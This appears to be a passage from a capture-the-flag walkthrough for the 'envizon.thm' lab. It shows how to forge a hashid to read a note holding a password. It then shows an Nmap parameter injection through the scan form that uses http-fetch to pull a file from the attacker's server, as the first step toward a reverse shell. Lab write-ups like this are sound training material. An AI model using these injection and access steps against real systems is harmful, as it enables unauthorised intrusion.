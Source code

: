 Here we have a note with a hint on where we can find the password:

*"Text: Hi Paul, for security reasons I added hashids with a length of 30 characters to notes. I stored the password for this envizon instance in the note with id 380 and sent you the link by email. We may should consider to add more security layers to this gem (<https://github.com/dtaniwaki/acts_as_hashids>)"*

![953e313e433353923efc0f06d306c6a7.png](/resources/b326f2b8b2704d898de0f05b05f948d7.png)

If we check the link to edit the note, we can get an idea of what the hashid looks like:

`https://envizon.thm:3000/notes/Q36xB7PpDGnZ0ED4E28qrdRgkzyJbw/edit`

And looking at the Github repository for '[acts\_as\_hashids](https://github.com/dtaniwaki/acts_as_hashids)' we can see some options that can be set for generating the hashids:
![fcced0dc49c3d501055c52f3fa2f8247.png](/resources/3a375fefdf5d48f0aed20f284b1178a6.png)

We already know the length of the hashid should be 30 characters as per the note. From the acts\_as\_hashids README.md, the default secret is the class name. Checking the source code for this instance of [Envizon](https://gitlab.com/evait-security/envizon_thm) under app > models > note.rb we can see the class name is 'Note':
![d5e3f532533953c48b906f08728ca23e.png](/resources/cde6100a428648cbb6408b13d1c4f811.png)

To generate the hashid we can use an [online hashids generator](https://hashids.gosu.bar) and set the salt/secret to `Note`, minimum length to `30` and decoded to `380` and the hashid will be in the encoded field:
![2777b5b06de68d08359d376f0766b650.png](/resources/a97a07093dd84718adbb87f6703da006.png)

Now we can check the note by appending the hashid to the URL `https://envizon.thm:3000/notes/<insert_hashid_here>` and get the password to Envizon:
![cea431825806ec3b55d3045cf5f3230e.png](/resources/bf90f5f8bfa046328e5e7dce5a086752.png)

# Initial Foothold

This application is using Nmap to do it's enumeration, we can use that to download a reverse shell script for the Nmap Script Engine (NSE).

We can get the commands we need from GTFOBin's [Nmap section](https://gtfobins.github.io/gtfobins/nmap/#file-download).

First, we can test to see if Nmap will make a request to our HTTP server.

Host the HTTP server using `python3` on the attacker machine:

```
$ python3 -m http.server 8080
```

On the Envizon website, navigate to Scans > Manual Scans, the URL is `https://envizon.thm:3000/scans` and enter `-p 8080 --script http-fetch --script-args http-fetch.destination=/tmp/test,http-fetch.url=test` into the Nmap Parameter field, IP of the attacker machine in the Target field and anything for the Name field:
![706d93e5402d7a78107b7f21c388ed2a.png](/resources/6548fc5f9c064ea88d6c568b3bc80065.png)
